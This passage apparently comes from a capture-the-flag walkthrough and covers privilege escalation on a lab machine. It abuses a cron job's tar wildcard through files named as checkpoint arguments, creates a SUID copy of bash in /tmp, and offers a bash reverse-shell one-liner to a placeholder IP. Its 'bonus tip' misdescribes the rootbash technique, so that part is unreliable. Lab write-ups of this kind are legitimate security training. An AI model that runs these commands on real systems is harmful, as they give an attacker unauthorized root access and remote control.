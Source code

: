 Once we are in /home/andre/backup directory, we create a file called exploit.sh containing the following code(Basically what it is doing is copying bash to a temporary location and saving the same as rootbash and then we give rootbash suid permission) .

BONUS TIP:

The rootbash technique involves exploiting a misconfigured or writable .bashrc or .bash_profile file in the root directory. By appending a malicious command or reverse shell to this file, an attacker can execute code as the root user the next time the root account opens a terminal, effectively gaining root privileges.

36. In the Exploit.sh , [use Vim or nano ]

cp /bin/bash /tmp/rootbash

chmod +s /tmp/rootbash

37. Save it. Now we give our exploit.sh file executable permission using chmod +x command. And finally run the touch command as we saw on GTFO bins.

— checkpoint=1

— checkpoint-action=exec=/bin/sh

create these files in /home/andre/backup using ‘touch’ command ,

38.move to /tmp and we found “rootbash” as SUID permission ,

run it using ./rootbash -p command and you will be Root .

39. Or Alternative Way to write , one liner reverse shell cmd using BASH ,

>> bash -c ‘bash -i >& /dev/tcp/IP/port 0>&1 . In the Exploit.sh ,wait for a minute or two for the cronjob to run .

40. Finally , We are Root , get root.txt.






